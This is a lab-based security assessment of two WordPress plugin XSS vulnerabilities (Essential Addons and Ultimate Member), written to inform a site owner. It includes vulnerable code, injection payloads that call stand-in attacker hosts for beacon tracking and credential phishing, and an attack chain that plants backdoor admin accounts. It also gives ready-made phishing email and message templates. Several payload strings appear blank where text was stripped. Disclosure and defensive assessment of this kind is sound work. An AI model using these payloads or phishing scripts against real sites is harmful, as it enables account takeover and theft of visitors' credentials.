

# WordPress XSS Vulnerability Assessment: A Lab-Based Case Study
## Methodology, Exploitation, and Remediation for CVE-2026-1512 & CVE-2026-1404

**Published:** February 2026
**Classification:** PUBLIC
**Method:** Passive discovery + isolated lab reproduction (no live site testing)

---

## Your WordPress Site Can Be Compromised With One Click

We built a lab replica of a production WordPress site and proved two attack paths that require no technical sophistication from the attacker:

**Path 1 — A link to the victim's own website.** The attacker crafts a URL using the site's own domain. It looks like a normal link to the site's own content. One click from a logged-in administrator executes arbitrary JavaScript in their browser, steals their session cookie, and grants the attacker full administrative control. No suspicious domains, no attachments, no malware. Just a link to a site the victim trusts because it's theirs. *(CVE-2026-1404, Ultimate Member <= 2.11.1)*

**Path 2 — "Can I write articles for your site?"** The attacker offers to contribute free content — guest blog posts, event listings, community updates. The site owner grants them a Contributor account, the lowest privilege role that can create content. This is routine. Guest bloggers, volunteers, community members, freelance writers — WordPress sites hand out Contributor accounts every day without a second thought. Once the attacker has that account, they inject invisible tracking beacons and phishing links directly into the site's login page. Every visitor to the login page is silently compromised. No further interaction with the site owner is required.

Or the attacker offers to pay the site owner for a reciprocal link — they'll write a free article, publish it, and "manage their link for SEO purposes." The site owner happily grants access because they're getting paid for a backlink. In reality, the attacker is using a legitimate, trusted website to phish every person who visits the login page. A small payment in Bitcoin for a backlink is a trivial cost compared to the potential gain: stolen credentials, financial data, and a platform to deploy ransomware or cryptoware against every visitor to a site they already trust.

**The attacker doesn't need to hack anything. They just need to ask.** *(CVE-2026-1512, Essential Addons for Elementor <= 6.5.9)*

Both vulnerabilities have patches available. Both patches are a single plugin update. The rest of this paper documents exactly how we proved this and what to do about it.

---

## Methodology & Scope Disclaimer

### How These Vulnerabilities Were Discovered

The vulnerabilities documented in this report were identified through **passive, non-invasive observation only**. No hacking, penetration testing, exploitation, or unauthorized access of any kind was performed against the live website example.com.

The discovery process consisted entirely of:

1. **Reading the publicly visible HTML source code** served by the website as web pages loaded normally in a standard web browser
2. **Observing HTTP response headers** returned by the web server during normal page loads
3. **Reading publicly available plugin version numbers** exposed in the HTML source, JavaScript files, and CSS files that the website voluntarily delivers to every visitor's browser
4. **Cross-referencing observed plugin versions** against the public CVE (Common Vulnerabilities and Exposures) database and vendor security advisories that are freely published on the internet

This is the same information available to every person who visits the website. No login credentials were used on the live site. No scanning tools were run against the live site. No requests beyond normal web browsing were made to the live site.

### Lab Reproduction Environment

**All exploitation testing and verification was conducted exclusively on equipment we own and control.** At no point was any test, exploit, payload, or proof-of-concept executed against the live website.

To verify that the publicly disclosed vulnerabilities are real and exploitable, we built an isolated replica of the site's software stack on our own infrastructure:

- **Host machine:** Privately owned workstation running FreeBSD under QEMU virtualization
- **Isolation:** The WordPress installation runs inside a FreeBSD CBSD jail — a sandboxed container with no network connectivity to the internet or to the client's servers
- **Software:** WordPress 6.9.1, Elementor 3.35.0, Essential Addons 6.5.9, and Ultimate Member 2.11.1 were downloaded from the official WordPress plugin repository and installed fresh
- **Test accounts:** Admin and contributor accounts were created on our own lab instance only
- **Browser testing:** Playwright (headless Chromium) automated browser testing ran against our local lab instance only (localhost)

The lab exists solely to answer the question: *"If an attacker targeted this site, would these published vulnerabilities actually work?"* The answer, as documented below, is yes.

### Why Lab Reproduction Matters

A CVE number alone does not tell you whether your specific site is actually at risk. Published vulnerability descriptions are often vague — they describe what *could* happen in theory. Without lab verification, a site owner cannot answer critical questions:

- Does the vulnerability actually work with the exact combination of plugins and WordPress version on my site?
- What exactly can an attacker do — steal passwords? Read data? Take over the site?
- How visible would the attack be to visitors? Would anyone notice?
- Which sanitization layers apply, and which payloads survive them?
- Is the attack zero-click, or does the victim need to do something?

By recreating the exact software stack on our own isolated equipment and testing against it, we can give the site owner **concrete, specific answers** rather than theoretical warnings. This is standard practice in defensive security assessment: reproduce the environment, verify the threat, document the findings, and recommend specific mitigations.

Every screenshot, code path, and Playwright test output in this report was produced on our own lab instance. The results demonstrate what *would* happen if an attacker targeted the live site — without ever touching the live site.

### What This Report Is

This report is a **defensive security assessment** intended to inform the site owner of risks present in their current software configuration so they can take protective action. The vulnerabilities described are publicly known, have assigned CVE numbers, and have patches available from the plugin vendors. The social engineering scenarios in Section 4 describe known attack patterns to help the site owner recognize and resist them — not to enable attacks.

---

## 1. Executive Summary

Two cross-site scripting (XSS) vulnerabilities were identified by passively observing the plugin versions exposed in the site's public HTML source code, then confirmed exploitable by reproducing the exact software stack in our own isolated lab environment. Both vulnerabilities have published CVEs, public exploit details, and available patches that have not been applied. No testing of any kind was performed against the live website.

**CVE-2026-1512 (Essential Addons for Elementor 6.5.9)** is a stored XSS vulnerability in the Login/Register Form widget. It was fully exploited in our lab environment. An attacker with Contributor-level access can inject invisible tracking beacons and phishing links directly into the site's login form. Every visitor to the login page is affected — no click required for tracking, one click for credential theft. This is the **critical finding**.

**CVE-2026-1404 (Ultimate Member 2.11.1)** is a reflected XSS vulnerability in the member directory filter parameters. It allows full JavaScript execution in the victim's browser — including session cookie theft — when the victim clicks a single crafted link. The client site does not currently expose a member directory page, reducing immediate risk, but the vulnerable code is present and would become exploitable if the feature were ever enabled.

**The bottom line:** Compromising a vulnerable WordPress site is as simple as sending an administrator a link to their own website. The exploit URL uses the site's own domain as the base — it looks like a normal link to their own content. One click from a logged-in admin is enough to execute arbitrary JavaScript in their browser, steal their session cookie, and take full control of the site. No suspicious domains, no attachments, no malware. Just a crafted URL to a site the victim trusts because it's theirs.

Separately, an attacker who compromises or creates a Contributor account can silently weaponize the login page — injecting invisible tracking beacons and phishing links that affect every visitor. No click required for tracking; one click for credential theft.

### Severity Summary

| Finding | Severity | Requires | Impact |
|---------|----------|----------|--------|
| CVE-2026-1512 | **CRITICAL** | Contributor account | Every login page visitor tracked; credentials phished |
| CVE-2026-1404 | **HIGH** | Victim clicks one link | Full admin session hijack |
| REST API exposure | MEDIUM | Nothing (public) | Venue data, organizer info leaked |
| 5 outdated plugins | LOW | Varies | Increased attack surface |

### Immediate Actions Required

1. Update Essential Addons for Elementor to 6.5.10+
2. Update Ultimate Member to 2.11.2+
3. Audit login page (ID [LOGIN_PAGE_ID]) for existing injected content
4. Review all user accounts for unauthorized Contributor/Author roles

---

## 2. Target Site Technical Profile

All information in this section was gathered through **passive observation only** — reading publicly visible HTML source code, DNS records (public), WHOIS/RDAP records (public), and HTTP response headers delivered during normal web browsing. No scanning tools were used against the live site.

### 2.1 Infrastructure

| Component | Detail |
|-----------|--------|
| Domain | example.com |
| IP Address | 198.51.100.42 |
| Hosting | Google Cloud (GCE) |
| Reverse DNS | 42.100.51.198.bc.googleusercontent.com |
| DNS Provider | [Hosting Provider] (ns1/ns2.hosting-provider.example) |
| Registrar | [Registrar] |
| Domain Registered | 20XX-XX-XX |
| Domain Expires | 20XX-XX-XX |
| Mail Provider | Anti-spam mail protection (mx10/20/30.mail.example) |
| SPF | `v=spf1 +a +mx include:example.com.spf.auto.dns.example ~all` |

### 2.2 WordPress Stack

Plugin names and version numbers were read from the HTML source code, JavaScript file URLs, and CSS file URLs that the website serves to every visitor's browser during normal page loads.

| Component | Installed Version | Latest Version | Status |
|-----------|-------------------|----------------|--------|
| WordPress Core | 6.9.1 | — | Version hidden (good) |
| Elementor | 3.35.0 | 3.35.5 | Outdated |
| Essential Addons for Elementor | 6.5.9 | 6.5.12 | **VULNERABLE (CVE-2026-1512)** |
| Ultimate Member | 2.11.1 | 2.11.2 | **VULNERABLE (CVE-2026-1404)** |
| The Events Calendar | 6.15.15 | 6.15.16.1 | Outdated |
| Event Tickets | 5.27.4 | 5.27.4 | Current |
| [email marketing service] | 1.7.18 | 1.7.20 | Outdated |
| Starter Templates | unknown | 4.4.50 | Unknown |
| Theme: hello-elementor | unknown | — | — |

### 2.3 Security Posture

| Control | Status |
|---------|--------|
| XML-RPC | Blocked (good) |
| WordPress version | Hidden (good) |
| readme.html | Exposed (minor) |
| REST API | **Fully exposed** — events, venues (10), organizers (2), users (1) queryable without auth |
| WAF | None detected |
| Auto-updates | Not enabled for plugins |
| httpOnly cookies | Yes (WordPress default) |
| SameSite cookies | Lax (WordPress default) |

### 2.4 Known Site Pages

Based on site reconnaissance, the following pages exist:

- Home, About, Contact, Events, Join
- Donation page, Supporter page
- Liability Release form
- [upcoming event] page
- Login page (ID [LOGIN_PAGE_ID]) — **uses EA Login/Register widget**

The following UM pages do **not** exist (all return 404):
`/members/`, `/member-directory/`, `/user/`, `/account/`, `/register/`

---

## 3. Vulnerability Details & Lab Reproduction

### Lab Environment

**All tests described in this section were performed on our own privately owned equipment. No tests were performed against the live website.**

The vulnerabilities were reproduced in an isolated FreeBSD CBSD jail running on our own hardware. The jail has no internet access and no connectivity to the client's servers. We installed the exact same plugin versions as the production site — identified by passively reading the version strings in the publicly served HTML source:

| Component | Version | Source |
|-----------|---------|--------|
| WordPress | 6.9.1 | wordpress.org (fresh install) |
| Elementor | 3.35.0 | wordpress.org plugin repository |
| Essential Addons | 6.5.9 | wordpress.org plugin repository |
| Ultimate Member | 2.11.1 | wordpress.org plugin repository |

Testing was automated using Playwright (headless Chromium) running against our local lab instance (localhost:8088 via SSH tunnel to the jail). The browser tests simulate real user behavior including cookie handling, network requests, and click interactions — all against our own lab WordPress installation only.

---

### 3.1 CVE-2026-1512: Essential Addons Stored XSS

**CONFIRMED EXPLOITABLE — zero-click exploitation verified**

| Field | Value |
|-------|-------|
| CVE | CVE-2026-1512 |
| CVSS | 6.1 (HIGH) |
| Type | Stored Cross-Site Scripting |
| Published | 2026-02-13 |
| Plugin | Essential Addons for Elementor |
| Vulnerable Version | <= 6.5.9 |
| Fixed In | 6.5.10 |
| Access Required | Contributor+ (authenticated) |
| Interaction Required | None (zero-click for beacon); One click (for phishing) |

#### What Is Vulnerable

The EA Login/Register Form widget has two text fields at the top of the form: a **title** and a **subtitle**. The title is properly sanitized. The subtitle is not.

When the widget renders, the subtitle passes through `wp_kses()` with a permissive allowlist called `eael_allowed_tags()` that permits ``, `<a>`, `<div>`, `<span>`, and other HTML tags with attributes including `src`, `href`, and `style`. This means an attacker can inject:

- `` tags that auto-fire HTTP requests to any server (zero-click tracking)
- `<a>` tags that display clickable links (credential phishing)
- `<div>` tags with CSS background URLs (zero-click tracking via CSS)

JavaScript event handlers (`onerror`, `onload`) and `javascript:` URLs are correctly stripped by `wp_kses`, so direct JS execution is not possible through this vector. The attack is limited to HTML injection — but HTML injection into a login form is devastating for phishing.

#### Vulnerable Code Path

```php
// Login_Register.php:7212 — title is SAFE
$title = wp_strip_all_tags($this->ds["{$form_type}_form_title"]);

// Login_Register.php:7214 — subtitle is RAW (no strip_tags)
$subtitle = $this->ds["{$form_type}_form_subtitle"];

// Login_Register.php:7237-7241 — rendering
if (!empty($title)) {
    echo "<h4>" . esc_html($title) . "</h4>";      // SAFE: esc_html escapes all HTML
}
if (!empty($subtitle)) {
    echo "<p>" . wp_kses($subtitle,
        HelperCLass::eael_allowed_tags()) . "</p>";  // VULNERABLE: allows , <a>
}
```

The `eael_allowed_tags()` function (Helper.php:1126) defines:

```php
'img' => ['src', 'alt', 'title', 'height', 'width', 'class', 'id', 'style']
'a'   => ['href', 'title', 'class', 'rel', 'id', 'style', 'target']
'div' => ['class', 'id', 'style']
// ... plus span, p, strong, em, etc.
```

#### Sanitization Flow

The subtitle passes through two separate sanitization layers:

```
                    Elementor Widget Data (_elementor_data post meta)
                                        |
                                        v
                    +-------------------------------------------+
                    |  login_form_subtitle = attacker payload   |
                    +-------------------------------------------+
                                        |
             +------------- Rendering Pipeline --------------+
             |                                               |
             v                                               |
  +-------------------------+                                |
  | wp_kses($subtitle,      |                                |
  |   eael_allowed_tags())  |  Layer 1: EA's own allowlist   |
  +-------------------------+                                |
    |          |         |                                   |
    v          v         v                                   |
        <a>     <iframe>                                |
  PASSES    PASSES    PASSES                                 |
    |          |         |                                   |
    v          v         v                                   |
  +-------------------------+                                |
  | wp_kses_post()          |  Layer 2: the_content filter   |
  | (Elementor rendering)   |  (applied by WordPress core)   |
  +-------------------------+                                |
    |          |         |                                   |
    v          v         v                                   |
        <a>     <iframe>                                |
  PASSES    PASSES   STRIPPED  <-- blocked here              |
    |          |                                             |
    v          v                                             |
  +-------------------------------------------+             |
  |        Browser renders HTML               |             |
  |  fires HTTP request (zero-click)     |             |
  | <a> shows clickable phishing link         |             |
  +-------------------------------------------+             |
             +-----------------------------------------------+
```

| Payload | Layer 1 (eael_allowed_tags) | Layer 2 (wp_kses_post) | Result |
|---------|----------------------------|------------------------|--------|
| `` | PASSES | PASSES | **EXPLOITABLE** |
| `<a href="http://attacker/phish">text</a>` | PASSES | PASSES | **EXPLOITABLE** |
| `<div style="background:url(http://attacker/c)">` | PASSES | PASSES | **EXPLOITABLE** |
| `<iframe src="http://attacker/frame">` | PASSES | **STRIPPED** | Blocked |
| `` | onerror STRIPPED | — | Blocked |
| `<svg onload=alert(1)>` | STRIPPED entirely | — | Blocked |
| `<a href="javascript:alert(1)">` | javascript: STRIPPED | — | Blocked |

#### Lab Exploitation: Three Attack Vectors

**Vector 1: Zero-click beacon tracking**

An `` tag with an attacker-controlled `src` URL auto-fires an HTTP request the moment any browser loads the page. No user interaction required.

```json
{ "login_form_subtitle": "" }
```

The attacker's server logs every visitor's IP address, User-Agent, referer URL, and exact timestamp. For a login page, this reveals who is logging in and when.


**Vector 2: Credential phishing link**

An `<a>` tag renders as a clickable link inside the login form. Positioned in the subtitle above the username/password fields, it appears to be a legitimate part of the form UI.

```json
{ "login_form_subtitle": "<a href=\"http://attacker.com/phish\">Sign in to continue</a>" }
```

The victim clicks what appears to be a normal form instruction and is redirected to an attacker-controlled page that mimics the real login form.



**Vector 3: Combined attack chain (confirmed in lab)**

Both vectors combined: the beacon silently identifies the visitor, and the phishing link captures credentials.

```json
{
  "login_form_subtitle": "<a href=\"/steal.php\">Sign in to continue</a> "
}
```


#### Playwright Verification Output

```
[1] Logging in as admin...
[*] Auth cookies: 2

[2] Visiting login page as authenticated admin...
[REQUEST] http://localhost:8088/collect.php?c=CVE-2026-1512&d=cookie_steal
[*] Subtitle HTML: <a href="/steal.php">Sign in to continue</a>
    
[*] Hidden beacons: 1
[*] Phishing links: 1

[3] Simulating victim clicking phishing link...
[*] Redirected to: http://localhost:8088/steal.php

=== Attack Summary ===
Requests captured: 2
  [1] collect.php?c=CVE-2026-1512&d=cookie_steal  (auto-fired beacon)
  [2] steal.php  (phishing link click)

[RESULT] CVE-2026-1512 attack chain confirmed:
  1. Beacon img auto-fires on page visit (zero-click tracking)
  2. Phishing link displayed in login form subtitle
  3. Attacker page can mimic login form to steal credentials
```

#### Combined Attack Chain Diagram

```
    ATTACKER (Contributor+ account)
        |
        | 1. Edit page with EA Login/Register widget
        |    Set login_form_subtitle to combined payload
        v
    +--------------------------------------------------+
    | WordPress Page (e.g. /login/)                    |
    |                                                  |
    |  +--------------------------------------------+  |
    |  |            Sign In                         |  |
    |  |                                            |  |
    |  |  "Sign in to continue"  <-- phishing <a>  |  |
    |  |  [invisible beacon]     <-- tracking  |  |
    |  |                                            |  |
    |  |  Username: [____________]                  |  |
    |  |  Password: [____________]                  |  |
    |  |                                            |  |
    |  |  [  Log In  ]                              |  |
    |  +--------------------------------------------+  |
    +--------------------------------------------------+
        |                           |
        | auto (zero-click)         | victim clicks "Sign in to continue"
        v                           v
    +-------------------+   +-------------------------------+
    | attacker.com/     |   | attacker.com/phish            |
    | collect?c=beacon  |   |                               |
    |                   |   |  Fake login form:             |
    | Logs:             |   |  Username: [____________]     |
    |  - Victim IP      |   |  Password: [____________]     |
    |  - User-Agent     |   |  [  Log In  ]                 |
    |  - Referer        |   |                               |
    |  - Timestamp      |   |  Captures credentials and     |
    +-------------------+   |  redirects to real login page  |
                            +-------------------------------+
```

#### Why Direct Cookie Theft Does Not Work Here

WordPress sets authentication cookies with the `httpOnly` flag. This means:

- `wordpress_logged_in_*` — httpOnly, cannot be read by JavaScript
- `wordpress_sec_*` — httpOnly, cannot be read by JavaScript
- `document.cookie` returns an empty string for these cookies

Since CVE-2026-1512 does not allow JavaScript execution (event handlers are stripped), and even if it did, httpOnly cookies are not accessible to JS, direct session hijacking through this vulnerability is not possible. The practical attack is credential phishing.

#### Elementor Caching Note

Elementor caches rendered widget HTML in `_elementor_element_cache` post meta. After modifying widget settings, this cache must be cleared with `delete_post_meta($post_id, '_elementor_element_cache')` or the old (clean) content continues to render — which can mask an injection during forensic review if the cache hasn't expired.

---

### 3.2 CVE-2026-1404: Ultimate Member Reflected XSS

**VULNERABLE CODE CONFIRMED — not currently exploitable on client site (no member directory page)**

| Field | Value |
|-------|-------|
| CVE | CVE-2026-1404 |
| CVSS | 6.1 (HIGH) |
| Type | Reflected Cross-Site Scripting |
| Published | 2026-02-20 |
| Plugin | Ultimate Member |
| Vulnerable Version | <= 2.11.1 |
| Fixed In | 2.11.2 |
| Access Required | **None** (unauthenticated attacker) |
| Interaction Required | Victim must click a crafted link |

#### What Is Vulnerable

The UM member directory uses Underscore.js client-side templates to display active search filters. Filter values come directly from URL parameters and are rendered using triple braces `{{{ }}}`, which in Underscore.js means **no HTML escaping**. An attacker can inject arbitrary HTML and JavaScript by crafting a URL with malicious filter parameters.

Unlike CVE-2026-1512, this vulnerability allows **full JavaScript execution** — including reading non-httpOnly cookies, making API calls as the victim, modifying the page DOM, and redirecting the user.

#### Vulnerable Code Path

```javascript
// um-members.js (~line 531) — reads URL parameters into filter data
filter_value = um_get_data_for_directory(directory, 'filter_' + filter_name);
// um_get_data_for_directory calls decodeURIComponent() on URL params
filters_data.push({
    'name': filter_name,
    'label': filter_title,
    'value_label': filter_value,  // <-- UNSANITIZED URL INPUT
    'value': filter_value,
    'type': filter_type
});
```

```html
<!-- members.php (~line 347) — Underscore.js template -->
<script type="text/template" id="tmpl-um-members-filtered-line">
    <# _.each( data.filters, function( filter, key, list ) { #>
        <strong>{{{filter.label}}}</strong>: {{{filter.value_label}}}
                                             ^^^^^^^^^^^^^^^^^^^^^^^^^^^
                                             Triple braces = RAW HTML output
                                             No escaping applied
    <# }); #>
</script>
```

#### Reflected XSS Flow

```
    ATTACKER
        |
        | 1. Crafts URL with malicious filter parameter:
        |    /members/?filter_first_name=
        |
        | 2. Delivers link to victim (see Section 4 for delivery methods)
        v
    VICTIM clicks link
        |
        v
    +-----------------------------------------------------+
    | WordPress loads /members/ page (server-side)         |
    |                                                      |
    |  Server renders normal HTML including UM shortcode   |
    |  Underscore.js templates embedded in page source     |
    |  URL parameters passed through to client             |
    +-----------------------------------------------------+
        |
        v
    +-----------------------------------------------------+
    | Browser executes um-members.js (client-side)         |
    |                                                      |
    |  Reads URL: ?filter_first_name=<PAYLOAD>             |
    |  decodeURIComponent() decodes the value              |
    |  Stores in filters_data[].value_label                |
    +-----------------------------------------------------+
        |
        v
    +-----------------------------------------------------+
    | Underscore.js template rendering                     |
    |                                                      |
    |  {{{filter.value_label}}}                            |
    |  Triple braces = insert as RAW HTML                  |
    |                                                      |
    |  Injects: |
    |  Browser parses as real HTML element                 |
    |  Image load fails -> onerror handler fires           |
    +-----------------------------------------------------+
        |
        v
    +-----------------------------------------------------+
    | JAVASCRIPT EXECUTES in victim's authenticated        |
    | browser session on example.com                       |
    |                                                      |
    |  Can: Read cookies (non-httpOnly)                    |
    |       Make WP REST API calls as victim               |
    |       Create new admin users                         |
    |       Modify site content                            |
    |       Redirect to phishing page                      |
    |       Install backdoors via plugin upload            |
    +-----------------------------------------------------+
```

#### Key Difference from CVE-2026-1512

```
    CVE-2026-1512 (Stored XSS)         CVE-2026-1404 (Reflected XSS)
    ============================        ==============================

    Requires Contributor account        Requires NOTHING (unauthenticated)
    Payload stored in database          Payload in URL parameter only
            |                                    |
            v                                    v
    Server renders injected HTML        Server renders page normally
    wp_kses strips JS handlers          JS reads URL params client-side
            |                                    |
            v                                    v
    HTML-only injection:                Full JavaScript execution:
    -  beacon (zero-click)         - Read document.cookie
    - <a> phishing link (one-click)     - Make authenticated API calls
    - <div> CSS exfil                   - Create admin accounts
                                        - Upload malicious plugins
    NO JavaScript execution             - Keylog the current page
                                        - Redirect anywhere
                                        FULL JavaScript execution

    Persistent: affects ALL visitors    One-shot: only affects clicker
    of the compromised page             Requires social engineering delivery
```

#### Client Exposure

**Currently LOW** — example.com returns 404 for all UM directory URLs:
`/members/`, `/member-directory/`, `/user/`, `/account/`, `/register/`

The member directory shortcode is not placed on any published page. However, the vulnerable plugin code is fully installed and active. If the site owner ever creates a member directory page, it becomes instantly exploitable.

#### Fix (in UM 2.11.2)

> "Modified template item formatting to avoid using HTML characters in the filter values."

The fix changes `{{{filter.value_label}}}` to `{{filter.value_label}}` (double braces = HTML-escaped) in `members.php` and `searchform.php`.

---

## 4. Social Engineering Attack Scenarios

**Purpose of this section:** This section describes how a real-world attacker would exploit the human element to weaponize these vulnerabilities against the site owner. These are well-documented attack patterns used in the wild against WordPress sites. They are included here so that the site owner can **recognize these tactics and avoid falling victim to them**. All examples are hypothetical — none of these attacks were performed against the site owner or any other person.

### 4.1 How CVE-2026-1404 Works as a One-Click Attack

**Yes, all it takes is the site owner clicking one link.**

CVE-2026-1404 is a reflected XSS. The entire attack payload is encoded in the URL itself. When the victim clicks the link, their browser loads the legitimate WordPress site, but the JavaScript embedded in the URL executes in their browser session with their full authentication context.

If the site owner is logged in as admin (which they typically are on their own site), the attacker's JavaScript runs with admin privileges and can:

1. **Steal the session** — read the WordPress nonce and make authenticated REST API calls
2. **Create a backdoor admin account** — silently via `wp-admin/user-new.php` or the REST API
3. **Install a malicious plugin** — upload a PHP webshell disguised as a plugin
4. **Modify site content** — inject malware, SEO spam, or crypto miners into every page
5. **Exfiltrate data** — download the user database, event registrations, donor information

The attack happens invisibly. The page loads normally. The JavaScript executes in the background. The victim sees the member directory page (or a brief flash before redirect) and suspects nothing.

#### One-Click Attack Flow

```
    ATTACKER crafts URL:
    https://example.com/members/?filter_first_name=
        
        |
        | Encodes URL and sends to victim
        v
    SITE OWNER clicks link while logged into WordPress
        |
        v
    example.com loads normally in their browser
        |
        v
    JavaScript executes silently:
    Creates new admin user "support_team"
        |
        v
    ATTACKER now has permanent admin access
    (survives password changes, plugin updates, etc.)
```

### 4.2 Social Engineering Delivery Methods

An attacker would use one of these methods to get the site owner to click the crafted link. The URL can be disguised using URL shorteners, redirects, or HTML email formatting so the actual payload is not visible.

#### Method 1: Fake WordPress Security Alert Email

```
From: WordPress Security <security-alerts@wordpress-notify.com>
To: [site owner]
Subject: [Action Required] Critical vulnerability detected on example.com

Dear Site Administrator,

Our automated security scanner has detected a critical vulnerability
on your WordPress installation at example.com.

A publicly accessible member directory page is exposing user data.
Please verify immediately:

    >> Review exposed page: [LINK]  <<

The link points to your own site. No credentials are required.

If you did not create this page, please contact support.

WordPress Security Team
```

The `[LINK]` points to:
`https://example.com/members/?filter_first_name=<ENCODED_PAYLOAD>`

**Why it works:** The link goes to the victim's own domain. It looks legitimate. It creates urgency ("critical vulnerability"). The site owner clicks to verify the "exposed page."

#### Method 2: Fake User Support Request

```
From: Sarah Martinez <sarah.martinez8842@gmail.com>
To: [site contact form or publicly visible email]
Subject: Can't find my profile on the members page

Hi!

I just signed up for the [upcoming event] next month and I'm so
excited! But I'm having trouble finding my profile on your site.
When I search for my name on the members page it shows an error:

    https://example.com/members/?filter_first_name=Sarah

Can you check if my account is set up correctly? I want to make
sure my registration went through.

Thanks!
Sarah
```

**Why it works:** It's a plausible support request. The site owner clicks the link to help a "member." The actual URL would contain the XSS payload URL-encoded after "Sarah" — the visible portion looks clean, but the full URL contains the exploit appended after many spaces or encoded characters.

#### Method 3: Fake SEO/Analytics Report

```
From: Google Search Console <noreply@search-console-alerts.com>
To: [site owner]
Subject: Unusual indexing activity on example.com

We've detected unusual pages being indexed from your site:

    Page: https://example.com/members/?filter_first_name=...
    Status: Indexed, potentially exposing private data
    First seen: 2026-02-24

    >> Verify page content <<

Please review this page to ensure it should be publicly accessible.
```

**Why it works:** Site owners routinely click through Google Search Console alerts. The link goes to their own site.

#### Method 4: Social Media / Community Message

```
[Instagram DM or Facebook message]

Hey! I was trying to look up other members going on the
[upcoming event] and this page on your site looks weird —
is it supposed to show this?

[shortened link to example.com/members/?filter_...]

Might be a glitch? Just wanted to let you know!
```

**Why it works:** Comes from a seemingly helpful community member. The link is shortened so the payload is hidden. The site owner clicks to check what "looks weird."

#### Method 5: Compromised Contributor Account (CVE-2026-1512)

For the stored XSS, the attacker doesn't need to trick anyone into clicking a link — they need a Contributor-level account:

```
    How an attacker gets Contributor access:
    =========================================

    Option A: Register directly
    - If the site allows user registration (Ultimate Member is installed)
    - Default UM registration creates Subscriber role
    - Social engineer the admin to upgrade to Contributor
      "Hi, I'd like to help write blog posts about our adventures!"

    Option B: Credential stuffing
    - Site owner's email may have been in a data breach
    - Try common password reuse against wp-login.php
    - XML-RPC is blocked, but wp-login.php is not rate-limited

    Option C: Phish the admin first (using CVE-2026-1404)
    - Use reflected XSS to steal admin session
    - Create a Contributor account with the stolen session
    - Then plant stored XSS on the login page
    - Now EVERY visitor is compromised, permanently
```

### 4.3 Attack Chaining: Reflected XSS to Persistent Backdoor

The most dangerous scenario combines both vulnerabilities:

```
    Phase 1: Initial Access (CVE-2026-1404 — one click)
    ====================================================

    Attacker sends crafted link to site owner
        |
        v
    Site owner clicks link while logged in as admin
        |
        v
    JavaScript executes in admin context:
    1. Creates hidden admin account "wp_support_2026"
    2. Creates Contributor account "content_helper"
        |
        v
    Attacker now has both admin AND contributor access


    Phase 2: Persistence (CVE-2026-1512 — stored XSS)
    ====================================================

    Attacker logs in as "content_helper" (Contributor)
        |
        v
    Edits login page with EA Login/Register widget
    Injects into login_form_subtitle:
        <a href="https://attacker.com/harvest">
            Session expired — sign in to continue
        </a>
        
        |
        v
    Every future visitor to the login page:
    1. Is tracked (IP, timing, browser fingerprint)
    2. Sees a convincing "session expired" phishing link
    3. Clicks and enters credentials on attacker's page
        |
        v
    Attacker harvests ALL user credentials over time
    Even after the initial XSS accounts are discovered and removed,
    the login page payload persists in Elementor widget data


    Phase 3: Ongoing Access
    ====================================================

    Even if site owner:
    - Changes their password
    - Removes suspicious admin accounts
    - Installs a security plugin

    The Elementor widget payload PERSISTS because:
    - It's stored in _elementor_data post meta (not obvious to find)
    - It's cached in _elementor_element_cache (survives cache clears)
    - Security plugins don't scan Elementor widget data for HTML injection
    - The payload contains no JavaScript — just <a> and  — so
      malware scanners won't flag it
```

### 4.4 Why the Login Page Is the Perfect Target

The login page is uniquely dangerous for stored XSS injection:

1. **High-value visitors** — everyone who logs in is an authenticated user
2. **Credential context** — users are already expecting to enter their username and password
3. **Trust context** — the page is on the legitimate domain with a valid SSL certificate
4. **Phishing readiness** — a "Sign in to continue" link above username/password fields looks completely natural
5. **Repeat exposure** — users visit the login page regularly, giving the beacon ongoing tracking data
6. **Admin exposure** — the site administrator visits the login page to manage the site

### 4.5 What an Attacker Could Do With Admin Access

Once an attacker has WordPress admin credentials (via phishing from CVE-2026-1512) or a created admin account (via JavaScript from CVE-2026-1404):

| Action | Method | Impact |
|--------|--------|--------|
| Steal user data | Export users, event registrations | Privacy breach, CCPA liability |
| Steal donor info | Access [email marketing service] integration, Stripe dashboard | Financial data exposure |
| Deface the site | Edit any page via Elementor | Reputational damage |
| Plant malware | Install malicious plugin or edit theme | Infect all visitors |
| SEO spam | Inject hidden links/pages | Google blacklisting |
